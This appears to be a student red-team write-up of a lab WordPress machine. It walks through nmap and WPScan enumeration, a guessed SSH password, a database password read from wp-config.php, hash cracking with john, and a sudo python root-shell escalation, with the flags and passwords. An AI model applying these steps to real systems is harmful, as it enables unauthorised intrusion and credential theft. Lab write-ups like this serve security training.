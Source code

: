 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -O -sV 192.168.1.110
```
![Target 1 nmap scan](https://github.com/Screemm/Personal/tree/main/Homework/Final%20Project/images/1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (TCP port 22) - OpenSSH 6.7p1
  - HTTP (TCP port 80) - Apache 2.4.10
  - rpcbind (TCP port 111) - 2-4 (RPC #100000)
  - netbios-ssn (TCP port 139) - Samba 3.X - 4.X
  - microsoft-ds (TCP port 445) - Samba 3.X - 4.X

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WPScan.
  - Weak user passwords (easily guessable).
  - Poor directory access control.
  - Sensetive information in publically viewable files.
  - Privilege escalation via sudo access to python.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate publically accessible users for the wordpress server.
      - wpscan --url 192.168.1.110/wordpress --enumerate u
      - ![WPScan users result]()

      - Guessed password for user michael to gain access to server via SSH.
      - Password: michael
      - ![SSH access gained]()

      - Navigated to /var/www/html and used `cat` to find flag1.
      - ![Flag1]()

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - While logged in as user michael, navigated to /var/www (default directory for apache websites) and used cat to obtain flag.
      - `cd /var/www`
      - `cat flag2.txt`
      - ![Flag 2]()

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Found the MySQL root user password in /var/www/html/wordpress/wp-config.php.
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`
      - Root password: R@v3nSecurity
      - ![wp-config.php]()

      - Using the root credentials, logged into the MySQL database and manually checked all tables. Flag 3 found in wp_posts
      - `mysql -u root -p`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW TABLES;`
      - `SELECT * FROM wp_posts;`
      - ![Flag 3]()

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Found user hashes within the MySQL database table `wp_users` for users `michael` and `steven`. Used `john the ripper` to crack the hash for `steven`.
      - `SELECT * FROM wp_users;`
      - ![wp_users]()

      - `john wp_hashes.txt`
      - Password: pink84
      - ![john]()

      - Logged in as user `steven` onto the server and checked if user had sudo permissons.
      - `ssh steven@192.168.1.110`
      - `sudo -l`
      - ![steven ssh & sudo]()

      - Used the below python script to elevate permissions to the `root` user, navigated to the `root` user's home directory and used `cat` to obtain flag4.
      - `sudo python -c 'import os; os.system("/bin/sh")'`
      - `cd ~`
      - `cat flag4.txt`
      - ![flag4]()

